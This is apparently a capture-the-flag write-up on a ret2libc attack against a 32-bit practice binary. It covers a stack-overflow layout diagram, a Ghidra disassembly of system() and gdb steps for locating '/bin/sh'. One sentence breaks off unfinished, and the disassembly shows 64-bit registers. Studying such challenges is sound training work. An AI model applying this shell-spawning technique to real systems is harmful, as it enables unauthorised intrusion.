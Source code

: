 ```c
  FUN_000104c0("Give away: %p\n",system);
  vuln();
  return 0;
}

```

there's no win_func this time, so we can use ret2libc (google it!)
it looks something like this in 32 bit:

```
*            dummy bytes         dummy bytes     arg1 for system()
*           /           /       /
* |------------------|---------|------------|------|------------------|
* | buffer_fill_up   |  AAAA   |  &system   | BBBB |addr of "/bin/sh" |
* |------------------|---------|------------|------|------------------|
*     buffer      saved-EBP      RET
*
```

### addr of system

I loaded the libc binary into Ghidra to find system addr:

                     **************************************************************
                     *                          FUNCTION                          *
                     **************************************************************
                     undefined system()
     undefined         AL:1           <RETURN>
                     __libc_system                                   XREF[2]:     Entry Point(*), 002be860  
                     system
	0014f440 48 85 ff        TEST       RDI,RDI
	0014f443 74 0b           JZ         LAB_0014f450
	0014f445 e9 66 fa        JMP        FUN_0014eeb0                                     undefined FUN_0014eeb0()
	         ff ff
	                     -- Flow Override: CALL_RETURN (CALL_TERMINATOR)


system is at 0014f440 (again, statically)


Since the leak give away is already the address of system, we just need to 

### addr of /bin/sh

using `info proc map` in gdb, and find on 3rd libc mapping area
```
(gdb) find 0xf7f3e000, 0xf7fad000 , "/bin/sh"
0xf7f57406
1 pattern found.
```

in here:
```

0x56557000 0x56558000     0x1000     0x1000 /mnt/share/sharky/give_away_1
0xf7dcf000 0xf7dec000    0x1d000        0x0 /usr/lib/i386-linux-gnu/libc-2.30.so
0xf7dec000 0xf7f3e000   0x152000    0x1d000 /usr/lib/i386-linux-gnu/libc-2.30.so
0xf7f3e000 0xf7fad000    0x6f000   0x16f000 /usr/lib/i386-linux-gnu/libc-2.30.so <-- /bin/sh
0xf7fad000 0xf7faf000     0x2000   0x1dd000 /usr/lib/i386-linux-gnu/libc-2.30.so
0xf7faf000 0xf7fb1000     0x2000   0x1df000 /usr/lib/i386-linux-gnu/libc-2.30.so
0xf7fb1000 0xf7fb3000     0x2000        0x0
0xf7fcd000 0xf7fcf000     0x2000        0x0
0xf7fcf000 0xf7fd2000     0x3000        0x0 [vvar]
0xf7fd2000 0xf7fd4000     0x2000        0x0 [vdso]
0xf7fd4000 0xf7fd5000     0x1000        0x0 /usr/lib/i386-linux-gnu/ld-2.30.so
0xf7fd5000 0xf7ff1000    0x1c000     0x1000 /usr/lib/i386-linux-gnu/ld-2.30.so
```
